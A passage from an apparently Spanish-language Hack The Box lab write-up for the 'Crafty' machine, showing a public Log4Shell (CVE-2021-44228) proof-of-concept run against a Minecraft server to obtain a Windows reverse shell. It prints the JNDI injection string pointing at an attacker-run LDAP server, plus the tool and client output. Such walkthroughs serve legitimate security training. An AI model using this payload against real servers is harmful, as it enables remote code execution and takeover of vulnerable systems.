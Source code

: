 - Iniciamos el `poc` como tal tenemos que inyectar la `query` del `ldap` para poder obtener la reverse shell.

- Vamos a decirle que nos de una cmd.exe ya que es una máquina Windows.

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/crafty/2.png">
</p>

```bash
➜  log4j-shell-poc git:(main) ✗ python3 poc.py --userip 10.10.14.63 --webport 80 --lport 4444

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.14.63:1389/a}

[+] Starting Webserver on port 80 http://0.0.0.0:80
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Listening on 0.0.0.0:1389
```

- Ahora nos conectamos.

```bash
(ENV) ➜  pyCraft git:(master) python3 start.py
Enter your username: miguelito
Enter your password (leave blank for offline mode):
Enter server host or host:port (enclose IPv6 addresses in square brackets): 10.10.11.249
Connecting in offline mode...
Connected.
```
